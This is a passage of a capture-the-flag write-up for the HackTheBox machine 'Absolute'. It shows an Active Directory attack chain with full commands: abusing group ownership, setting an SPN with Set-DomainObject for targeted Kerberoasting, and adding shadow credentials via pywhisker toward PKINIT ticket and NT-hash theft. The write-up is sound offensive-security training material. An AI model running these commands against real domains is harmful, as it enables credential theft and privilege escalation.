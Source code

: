 ![](https://i.imgur.com/jX0KLaE.png)

We can verfiy if m.lovegod is added in the group

![](https://i.imgur.com/mnC25RN.png)

Now when setting the SPN for winrm_user, it wasn't working probably because of clean up script doing their job but not really sure why it didn't worked as I was providing the command one after the other

```powershell
Set-DomainObject -Identity 'winrm_user' -Set @{serviceprincipalname='MSSQL/UwU'} -Domain 'absolute.htb' -DomainController dc.absolute.htb -Credential $Cred -Verbose
```

![](https://i.imgur.com/pAbw54Q.png)

So what we can do is, repeat the same process by making m.lovegod the owner of audit group, give full control, add m.lovegod into the audit group and then generate TGT, this will reatiain the configurations or the session regardless of what we have configured being removed

![](https://i.imgur.com/tXZTlQj.png)

Checking if the ticket has been loaded

![](https://i.imgur.com/qjdBByB.png)

Running `targetedkerberosat` to set a SPN on winrm_user

![](https://i.imgur.com/mXppjQY.png)

```bash
python3 ./targetedKerberoast.py -d absolute.htb -k --no-pass --dc-ip 10.10.11.181 --request-user winrm_user -vv
```

![](https://i.imgur.com/G46bMhM.png)

From the ldapsearch we can see that there's credential key set, well we can edit the properties in GenericWrite so we can add that as well with `pywhisker` this will update or create `msDS-KeyCredentialLink`  which is related to ADCS realm

```bash
python3 ./pywhisker.py -a add --dc-ip 10.10.11.181 -d absolute.htb -u 'm.lovegod' -k --no-pass -t winrm_user
```

![](https://i.imgur.com/FrCu8Pd.png)

Following PKINIT tools we can request for a TGT and then with that we can get the NTHash but for that we need to have `minikerberos` installed
![]()
![](https://i.imgur.com/xyBOecb.png)
